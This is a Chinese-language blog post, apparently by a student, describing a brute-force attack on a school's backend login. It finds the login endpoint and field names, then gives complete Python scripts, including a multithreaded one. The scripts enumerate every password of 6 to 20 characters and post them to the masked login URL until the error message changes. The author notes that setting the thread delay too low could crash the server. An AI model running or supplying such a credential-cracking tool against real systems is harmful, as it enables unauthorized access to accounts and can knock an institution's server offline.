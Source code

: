 ```yaml
---
title: 「危」暴力攻入学校的后台系统
date: "2021-05-29"
categories: 日常
hero: https://www.hualigs.cn/image/60b24cbc1d501.jpg
---
```


危险操作，请酌情采用，本文仅提供暴力破解的思路，从一个实例中学习

本文不是专门针对学校，只是因为学校的服务器防御力比较高，在受到攻击的时候会很自觉地返回 **服务器压力过大**，即使从理论上来讲给埃拉两三年的时间可以破解进去，但是学校的响应速度也真的是感人，是个人都没有这种耐心（毕竟我没有那么多钱去应酬云服务器，而且浪费时间在这种无价值的地方也不是上策）

生成、创建进程、发送、等返回、关闭，一气呵成

## 侦察任务，勘探地形

如果你仔细发掘一下终端，你会发现几个重要的入口，埃拉这里是 `/theme/js/login.js` 的 Javascript 文件

![](https://www.hualigs.cn/image/60b25080753d8.jpg)

然后打开它来研究研究，你会发现存储用户名的变量竟然叫 `usrname`，密码是 `passwd`，并且序列化后就毫不犹豫地 POST 出去了，那么我们自己用 Postman 来试试看行不行

![](https://www.hualigs.cn/image/60b250ffbdabb.jpg)

然后装模做样地写好要传过去的数据（`学生会1` 这个用户名是埃拉通过小道消息得来的，通常你们可以试试看 admin 之类的）

![](https://www.hualigs.cn/image/60b2522570d02.jpg)

然后我们可以看到 `<p class="error">登录失败，密码错误.</p>` 这样的返回值（如果用户名不存在则会直接提示 `用户不存在`），现在我们就大概知道了几个重要的信息：

- 被攻击者的 URL
- 需要提供的数据
- 返回的数据

## 通过字典生成密码

```python
import itertools as its

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@." # 你觉得可能出现的字符，密码多为 ASCII 码字符
    count=0
    for num in range(6,20): # 指定密码位数，这里是从 6~20 位
        keys=its.product(words,repeat=num)
        for key in keys:
            print("".join(key)) # 此时 "".join(key) 即为生成的密码
            count += 1
```

## 发送数据，处理返回值

```python
import requests
from bs4 import BeautifulSoup

def inject(passwd): # 这里传入刚刚生成的密码
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxx.php/base/login'  # 这里屏蔽一下 ipv4，免得学校找我麻烦
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "", # 问问你高二高三的学长，他们可能会告诉你用户名
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml') # 使用 bs4 对返回的 html 进行解析
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.": # 剖析 html，提取出这个返回信息，如果不是这个返回信息，那就对了（因为用户名是已知的（对埃拉而言））
            print("[√ 成功破解] The PASSWD is '"+ passwd +"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd +"\n") # 保存正确的密码
                file.close()
        else:
            print("[× 错误] "+passwd+"\n") # 输出错误的密码
    except:
        print("[× 异常] "+passwd+"\n") # 抛出异常
```

## 提升破解效率

如果我们只是使用刚刚的方法，那么每一次的破解都会在上一个破解完成后才进行，这样会 **很慢很慢**，所以我们可以使用多线程来克服这个问题，最终的代码如下

```python
"""
🍀 本代码理论上可行，但是需要充足的时间，起码三年吧，不取决于你的算力，而是他们的反应能力（恕我直言，我实在没见过这么垃圾的服务器）
【本代码在正常情况下禁止运行（除非迫不得已），否则后果自负！】
如果你要问我为什么搞这个，那么就问问考试院为什么要加 Python，以及，学校图书馆为什么教会了我爬虫和数据解析
"""
import requests
from bs4 import BeautifulSoup
import itertools as its
import _thread
import time

def inject(passwd,thread_name):
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxxx.php/base/login'
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "",
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml')
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.":
            print("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
                file.close()
        else:
            print("[× 错误] "+passwd+" 线程名："+thread_name+"\n")
    except:
        print("[× 异常] "+passwd+" 线程名："+thread_name+"\n")
    _thread.exit() # 退出当前线程

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@."
    count=0
    for num in range(6,20):
        keys=its.product(words,repeat=num)
        for key in keys:
            _thread.start_new_thread( inject, ("".join(key), "Thread-"+str(count), ) )
            time.sleep(0.05) # 如果你调成更小的数值，你就等校领导找上门来吧，因为服务器会直接崩溃！
            count += 1

if __name__ == "__main__":
    crack()
```

请注意控制好线程创建速度！如果你设置得太小，就算你的计算机承受的住，人家的服务器可能承受不住~

OK，就这么多了，同样的代码我已经发布到 Github Gist 上，可以进行查阅！🍀后续可能会再出一些克服验证码的方案！